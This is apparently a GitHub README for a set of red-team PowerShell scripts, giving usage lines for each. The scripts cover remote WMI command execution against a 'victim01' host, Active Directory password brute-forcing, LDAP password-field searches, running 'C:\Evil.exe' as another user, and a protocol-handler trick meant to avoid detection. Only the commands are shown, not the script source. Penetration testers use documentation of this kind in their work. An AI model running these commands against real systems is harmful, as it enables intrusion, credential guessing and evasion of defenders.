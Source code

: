 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
Utility.ps1: Contain several cmdlets
Run-As.ps1: Run a process as another user (credentials)
Get-ProcessList.ps1: List processes, owner and command line arguments
Remote-RegisterProtocolHandler.ps1: Use protocol handler to run your command to bypass some detection
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Utility.ps1

Contain de following cmdlets
```
Search-EventForUser
Search-EventForUserByDomain
Search-EventForUserByIP
Search-FullNameToSamAccount
Ldap-GetProperty
Search-UserPassword
Dump-UserEmail
Dump-Computers
Dump-UserName
```

# Run-As.ps1

```
module-import .\Run-As.ps1; Run-As -Username RingZer0\Mr.Un1k0d3r -Password "IShouldNotLeakThisPasswordOnTheInternet" -Process "C:\Evil.exe"
```

# COM-Utility.ps1

Contain de following cmdlets
```
Invoke-COM-ScheduleService
Invoke-COM-XMLHTTP
Invoke-COM-ShellBrowserWindow
Invoke-COM-WindowsScriptHost
Invoke-COM-ProcessChain 
Invoke-COM-ShellApplication
```

# Get-ProcessList.ps1 Usage

```
module-import .\Get-ProcessList.ps1; Get-ProcessList
```

# Remote-RegisterProtocolHandler.ps1 Usage

This cmdlet create a protocol handler that will call your payload. The idea is to avoid detection since the command that will be execute will look like the following one:

`explorer ms-browse://`

Where `ms-browser` is the custom handler you registered and will execute your command

```
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run"
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run" -Handler ms-handler-name 
```

# Todo

1. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team
